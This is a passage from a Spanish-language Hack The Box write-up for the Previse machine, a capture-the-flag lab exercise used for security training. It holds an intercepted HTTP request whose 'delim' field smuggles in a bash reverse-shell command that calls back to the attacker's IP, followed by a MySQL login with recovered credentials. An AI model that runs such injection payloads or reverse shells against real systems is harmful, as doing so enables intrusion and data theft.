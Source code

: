## RCE
Vamos a interceptar la petición con **Burpsuite** para modificarla.
Con este payload, vamos a obtener una reverse shell hacia nuestra computadora.
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=cj47bms58h1t5pnp75i0ecbgnb
Upgrade-Insecure-Requests: 1

delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.14.185/4444+0>%261'
```
Y efectivamente, somos _www-data_

![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Linux/Previse/images/revShell.jpg "RevShell")

Ahora vamos a revisar la base de datos con las credenciales que encontramos anteriormente.
`myqsl -uroot -pmySQL_p@ssw0rd\!\:\)`

Vemos que hay una tabla de `accounts` con el usuario _m4lwhere_ y una contraseña hasheada.
